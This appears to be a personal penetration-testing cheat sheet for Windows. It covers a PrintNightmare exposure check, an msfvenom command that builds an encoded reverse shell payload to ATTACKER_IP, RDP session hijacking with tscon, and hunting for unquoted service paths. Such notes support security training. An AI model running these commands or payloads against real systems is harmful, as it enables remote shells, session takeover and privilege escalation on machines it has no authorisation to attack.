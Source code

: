 # Windows
To check if remote machine is vulnerable to print-nightmare

```text-plain
rpcdump.py @10.10.10.10 | egrep 'MS-RPRN|MS-PAR'
```

`C:\$Recycle.bin\<SID>`, where SID is for individual users.

powershell wrapped windows exploitation binaries resource: [https://github.com/S3cur3Th1sSh1t/PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) 

To use encoders with metasploit, use:

```text-plain
msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

To get details about a running service:

```text-plain
Get-WMIObject -Class Win32_Service -Filter "Name='ivpn client'" |
select-object *
```

to switch an rdp session when you have administrator privileges, use:

```text-plain
tscon 3 /dest:rdp-tcp#6 
```

where 3 is the id of the target session and 6 is your current session id.

To find unquoted service path vulns, use:

```text-plain
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v
"c:\windows\\" |findstr /i /v """
```